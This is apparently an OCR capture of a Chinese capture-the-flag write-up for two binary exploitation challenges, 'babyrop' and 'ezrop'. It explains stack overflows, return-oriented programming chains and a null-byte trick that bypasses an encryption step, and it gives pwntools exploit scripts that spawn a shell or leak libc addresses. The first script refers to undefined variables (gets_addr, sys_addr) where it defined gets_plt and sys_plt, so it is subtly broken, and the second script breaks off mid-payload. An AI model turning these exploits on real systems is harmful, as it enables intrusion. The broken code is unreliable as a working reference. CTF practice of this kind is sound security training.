 ### babyrop

很基本的rop，也没开pie

查看ida发现只有 system 函数而没有 /bin/sh 字符串

这时候可以利用 gets 函数来写入 /bin/sh 字符串

字符串的地址可以写在 bss 段上

然后利用 gets 函数来溢出，覆盖返回地址为 gets plt 地址，gets plt的返回地址再写为 system plt 地址，最后放上字符串参数的地址

```python
  1	from pwn import *
  2 
  3 context.log_level = "debug"
  4 sh = process("./babyrop")
  5 
  6 bss_addr = 0x0804A028
  7 sys_plt = 0x080483A0
  8 gets_plt = 0x08048380
  9 
 10 sh.recvuntil("advise?")
 11 payload = b'a'*(0x28+4) + p32(gets_addr) + p32(sys_addr) + p32(bss_addr) +  p32(bss_addr)
 12 
 13 #gdb.attach(sh)
 14 #pause()
 15 
 16 sh.sendline(payload)
 17 
 18 payload = b"/bin//sh"
 19 sh.sendline(payload)
 20 
 21 sh.interactive()
```



### ezrop

先放上 libc 版本吧 `2.27-3ubuntu1.4`

因为是 64 位程序，所以传参并不是在栈上的，而且程序没有开启 PIE，可以使用 ROPgadget 来寻找 `pop rdi` 以及 `ret`

这一题的关键在于那个 encrypt 函数，它会对我们输入的 shellcode 进行加密从而破坏我们的 shellcode

因为 strlen 函数是检测 '\0' 来检测字符串长度的，所以我们只要在 shellcode 的开始写入 '\0' 即可绕过加密

注意：64位程序调用 system 函数时会检测是否 0x10 是否对齐，所以要使用`ret`来调整偏移

```python
  1 from pwn import*
  2 from LibcSearcher import*
  3 
  4 r=process("./ezrop")
  5 elf=ELF("./ezrop")
  6 
  7 main=0x400b28
  8 pop_rdi=0x400c83
  9 ret=0x4006b9
 10 
 11 puts_plt = elf.plt['puts']
 12 puts_got = elf.got['puts']
 13 
 14 r.sendlineafter('choice!\n','1')
 15 payload ='\0'+'a'*(0x50-1+8)
 16 payload += p64(pop_rdi)
 17 payload += p64(puts_got)
 18 payload += p64(puts_plt)
```
